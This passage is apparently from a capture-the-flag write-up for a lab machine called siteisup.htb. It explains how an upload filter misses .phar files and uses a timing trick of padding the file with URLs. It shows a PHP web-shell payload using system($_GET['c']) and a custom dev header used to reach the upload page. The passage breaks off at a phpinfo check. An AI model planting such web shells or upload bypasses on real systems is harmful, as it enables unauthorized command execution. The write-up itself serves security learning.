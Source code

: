 	function getExtension($file) {
		$extension = strrpos($file,".");
		return ($extension===false) ? "" : substr($file,$extension+1);
	}
	?>
	...SNIP...
	```
	> 1. Basically what the `PHP` code is doing is, 
	> 2. Checks if the file we uploaded is less than `10 kb`, else `die`
	> 3. Checks if the content of the file we uploaded, whether it has any banned extensions (This is to prevent `PHP` file from being uploaded). However, `.phar` is not in the list, this means that we can upload a `.phar` file to do code execution.
	> 4. Next, a directory (`uploads/md5sum/<uploaded file>`) is created to store our uploaded file.
	> 5. Next, it `curl` the URLs in our file.
	> 6. After the `for` loop goes through all the URLs, delete the uploaded file.
	{: .prompt-info }
5. How do we do a file upload bypass to execute `PHP` code
	1. Since `.phar` is not banned, we can execute `PHP` code
	2. We can add a bunch of URLs at the end of our  `PHP` code, this will give us sufficient time to browse to `/upload/md5sum/<uploaded file>` to execute our `PHP` code.
		```
		<PHP CODE>
		http://example.com
		http://example.com
		http://example.com
		http://example.com
		more URLs
		```

## TCP/80 (HTTP) - dev.siteisup.htb, File Upload Bypass + Command Execution
1. Add `Special-Dev: only4dev` Header w/ `hackbar`
	![](Pasted%20image%2020221024165304.png)
	> This will permanently add `Special-Dev: only4dev` Header.
	{: .prompt-info }
2. Create our payload
	```
	# Payload
	http://example.com
	<?php
	system($_GET['c']);
	?>
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
	> It failed
	{: .prompt-info }
3. Lets look at `phpinfo()` to see why
	```
	# Payload